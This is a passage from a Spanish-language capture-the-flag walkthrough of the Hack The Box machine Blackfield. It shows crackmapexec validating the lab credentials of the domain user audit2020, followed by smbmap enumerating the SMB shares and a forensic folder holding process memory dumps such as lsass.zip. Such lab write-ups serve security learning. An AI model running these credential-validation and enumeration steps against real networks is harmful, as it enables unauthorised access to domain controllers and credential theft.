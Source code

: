 rapidamente lo validamos con crackmapexec

    crackmapexec smb 10.10.10.192 -u 'audit2020' -p 'atreus123!'
    SMB    10.10.10.192    445    DC01    [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False) 
    SMB    10.10.10.192    445    DC01    [+] BLACKFIELD.local\audit2020:atreus123!

ya tenemos credenciales validas de audit2020 -> atreus123! asique en este punto vamos a enumerar 
las carpetas que contiene el usuario audit2020

    smbmap -H 10.10.10.192 -u 'audit2020' -p 'atreus123!'
    [+] IP: 10.10.10.192:445        Name: dc01.blackfield.local
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        forensic                                                READ ONLY       Forensic / Audit share.
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share
        profiles$                                               READ ONLY
        SYSVOL                                                  READ ONLY       Logon server share

ya tenemos acceso a la carpeta forensic

    smbmap -H 10.10.10.192 -u 'audit2020' -p 'atreus123!' -r forensic
    [+] IP: 10.10.10.192:445        Name: dc01.blackfield.local
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        forensic                                                READ ONLY
        .\forensic\*
        dr--r--r--                0 Sun Feb 23 12:10:16 2020    .
        dr--r--r--                0 Sun Feb 23 12:10:16 2020    ..
        dr--r--r--                0 Sun Feb 23 15:14:37 2020    commands_output
        dr--r--r--                0 Thu May 28 17:29:24 2020    memory_analysis
        dr--r--r--                0 Fri Feb 28 19:30:34 2020    tools

    smbmap -H 10.10.10.192 -u 'audit2020' -p 'atreus123!' -r forensic/memory_analysis
    [+] IP: 10.10.10.192:445        Name: dc01.blackfield.local
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        forensic                                                READ ONLY
        .\forensicmemory_analysis\*
        dr--r--r--                0 Thu May 28 17:29:24 2020    .
        dr--r--r--                0 Thu May 28 17:29:24 2020    ..
        fr--r--r--         37876530 Thu May 28 17:29:24 2020    conhost.zip
        fr--r--r--         24962333 Thu May 28 17:29:24 2020    ctfmon.zip
        fr--r--r--         23993305 Thu May 28 17:29:24 2020    dfsrs.zip
        fr--r--r--         18366396 Thu May 28 17:29:24 2020    dllhost.zip
        fr--r--r--          8810157 Thu May 28 17:29:24 2020    ismserv.zip
        fr--r--r--         41936098 Thu May 28 17:29:24 2020    lsass.zip
        fr--r--r--         64288607 Thu May 28 17:29:24 2020    mmc.zip
        fr--r--r--         13332174 Thu May 28 17:29:24 2020    RuntimeBroker.zip
        fr--r--r--        131983313 Thu May 28 17:29:24 2020    ServerManager.zip
        fr--r--r--         33141744 Thu May 28 17:29:24 2020    sihost.zip
        fr--r--r--         33756344 Thu May 28 17:29:24 2020    smartscreen.zip
        fr--r--r--         14408833 Thu May 28 17:29:24 2020    svchost.zip
        fr--r--r--         34631412 Thu May 28 17:29:24 2020    taskhostw.zip
        fr--r--r--         14255089 Thu May 28 17:29:24 2020    winlogon.zip
        fr--r--r--          4067425 Thu May 28 17:29:24 2020    wlms.zip
        fr--r--r--         18303252 Thu May 28 17:29:24 2020    WmiPrvSE.zip
